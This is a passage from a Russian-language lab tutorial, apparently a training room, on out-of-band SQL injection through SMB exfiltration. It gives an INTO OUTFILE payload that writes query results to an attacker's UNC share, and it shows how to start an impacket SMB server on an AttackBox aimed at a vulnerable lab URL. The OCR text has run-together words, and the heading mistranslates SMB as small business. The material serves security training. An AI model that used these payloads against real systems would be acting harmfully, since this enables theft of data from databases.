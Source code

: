 Как обсуждалось выше, MySQL изначально не поддерживает генерацию DNS- запросов только с помощью команд SQL; 
злоумышленники могут использовать другие средства, такие как пользовательские функции (UDF) или системные скрипты 
для выполнения DNS- поиска.

Эксфильтрация малого и среднего бизнеса

Эксфильтрация SMB подразумевает запись результатов запроса в общий ресурс SMB на внешнем сервере. Этот метод 
особенно эффективен в средах Windows, но может быть также настроен в системах Linux с правильной настройкой. Пример 
запроса будет выглядеть так SELECT sensitive_data INTO OUTFILE '\\\\10.10.162.175\\logs\\out.txt';.

Это полностью поддерживается, поскольку Windows изначально поддерживает пути SMB/UNC. Linux (Ubuntu): Хотя прямые 
пути UNC более родные для Windows, общие ресурсы SMB можно монтировать и получать доступ к ним в Linux с помощью 
таких инструментов, как smbclientили путем монтирования общего ресурса в локальный каталог. Прямое использование 
путей UNC в запросах SQL может потребовать дополнительной настройки или скриптов для упрощения взаимодействия.

Практический пример

В этом практическом сценарии мы продемонстрируем, как злоумышленник может извлечь данные из уязвимого веб-приложения 
с помощью техники SQL-инъекции Out-of-band. Код на стороне сервера содержит уязвимость SQL-инъекции, которая 
позволяет злоумышленнику создать полезную нагрузку, которая записывает результаты запроса во внешний ресурс SMB . 
Это полезно, когда прямые ответы из базы данных ограничены или отслеживаются.

Объяснение сценария

В этом сценарии мы бы включили сетевой ресурс на AttackBox в ATTACKBOX_IP\logs. Этот ресурс доступен по сети и 
позволяет записывать на него файлы с других машин. Вы можете предположить сценарий, когда у вас есть уязвимая 
система и вы хотите перенести данные в другую сетевую систему. Злоумышленник воспользуется этим ресурсом для 
извлечения данных Out-of-band. Чтобы получить сетевой ресурс, мы бы запустили AttackBox и выполнили следующую 
команду в терминале:

Перейдите в impacketкаталог, используяcd /opt/impacket/examples
Введите команду  python3.9 smbserver.py -smb2support -comment "My Logs Server" -debug logs /tmpдля запуска SMB- сервера, предоставляющего общий доступ к /tmpкаталогу.
Вы можете получить доступ к содержимому сетевого ресурса, введя команду  smbclient //ATTACKBOX_IP/logs -U guest -N. Это позволит вам подключиться к сетевому ресурсу, а затем вы можете выполнить команду lsдля вывода списка всех команд.
У нас есть то же самое веб-приложение с функцией поиска, которое опрашивает посетителей, посещающих библиотеку. Серверный код этой функции уязвим для SQL- инъекции, и вы можете получить к нему доступ по адресу  http://MACHINE_IP/oob/search_visitor.php?visitor_name=Tim. 

